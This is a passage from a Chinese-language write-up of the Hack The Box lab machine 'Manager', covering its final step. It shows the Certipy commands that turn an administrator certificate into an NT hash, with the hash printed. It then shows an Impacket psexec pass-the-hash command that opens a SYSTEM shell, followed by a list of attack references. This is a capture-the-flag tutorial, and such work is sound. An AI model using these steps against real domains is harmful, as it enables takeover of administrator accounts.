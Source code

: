 第五步：使用证书进行认证，拿到 `Administrator` 账户的 NT hash

```bash
kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain manager.htb -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

现在我们有 Administrator 账户的NT hash了，可以使用 `psexec` 通过PTH连接到受害机器

```bash
kali@kali[~]$ impacket-psexec 'administrator@manager.htb' -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vDevPpBd.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service IlSN on manager.htb.....
[*] Starting service IlSN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

---
## 参考链接
1. 文章：使用Guest账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：RID爆破
   https://www.thehacker.recipes/ad/recon/ms-rpc#rid-cycling
3. 文章：ADCS ESC7攻击
   https://www.thehacker.recipes/ad/movement/adcs/access-controls#esc7-abusing-subca
4. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
7. 工具：RustScan
   https://github.com/RustScan/RustScan
8. 工具：Responder
   https://github.com/SpiderLabs/Responder
9. 工具：Certipy
   https://github.com/ly4k/Certipy

---